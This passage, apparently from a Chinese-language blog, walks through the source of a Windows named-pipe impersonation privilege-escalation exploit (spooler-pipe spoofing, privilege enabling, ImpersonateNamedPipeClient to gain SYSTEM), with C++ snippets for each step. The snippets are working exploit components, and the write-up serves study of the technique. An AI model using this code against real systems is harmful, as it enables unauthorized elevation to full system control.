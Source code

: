 ```c++
// ImpersonateNamedPipeClient + CreateProcessAsUserW
GetSystem(hSpoolPipe);
```

#### CheckAndEnablePrivilege

`CheckAndEnablePrivilege`中首先获取当前进程token

调用了两次`GetTokenInformation`，这是win32api编程的惯例，第一次传递的LPVOID为NULL，此时会返回`ERROR_INSUFFICIENT_BUFFER`，函数会将所需的buffer大小写入`ReturnLength`参数指向的地址（`&dwTokenPrivilegesSize`），这样就可以获知所需的buffer大小并动态分配了

```c++
OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken);

if (!GetTokenInformation(hToken, TokenPrivileges, NULL, dwTokenPrivilegesSize, &dwTokenPrivilegesSize)) {
    if (GetLastError() != ERROR_INSUFFICIENT_BUFFER) {
        wprintf(L"GetTokenInformation() failed. Error: %d\n", GetLastError());
        goto cleanup;
    }
}

pTokenPrivileges = (PTOKEN_PRIVILEGES)malloc(dwTokenPrivilegesSize);
if (!pTokenPrivileges)
    goto cleanup;

if (!GetTokenInformation(hToken, TokenPrivileges, pTokenPrivileges, dwTokenPrivilegesSize, &dwTokenPrivilegesSize)) {
    wprintf(L"GetTokenInformation() failed. Error: %d\n", GetLastError());
    goto cleanup;
}
```

后面遍历了token的所有privilege并查询所需的是否存在，查询到后会调用`AdjustTokenPrivileges`启用

```c++
AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);
```

#### CreateSpoolNamedPipe

`CreateSpoolNamedPipe`创建命名管道，先创建了安全描述符，设置允许任何客户端访问

```c++
InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION);
ConvertStringSecurityDescriptorToSecurityDescriptor(L"D:(A;OICI;GA;;;WD)", SDDL_REVISION_1, &((&sa)->lpSecurityDescriptor), NULL);
```

后面创建named pipe时设置了`FILE_FLAG_OVERLAPPED`，也就是Windows中OVERLAPPED I/O的概念

为什么是OVERLAPPED，它的意思是CPU操作和I/O操作可以重叠，其实也就是异步I/O。这个模型是对每个I/O操作创建一个新线程，性能较差，所以Windows后面有了IOCP

```c++
StringCchPrintf(pwszPipeFullname, MAX_PATH, L"\\\\.\\pipe\\%ws\\pipe\\spoolss", pwszPipeName);
hPipe = CreateNamedPipe(pwszPipeFullname, PIPE_ACCESS_DUPLEX | FILE_FLAG_OVERLAPPED, PIPE_TYPE_BYTE | PIPE_WAIT, 10, 2048, 2048, 0, &sa);
```
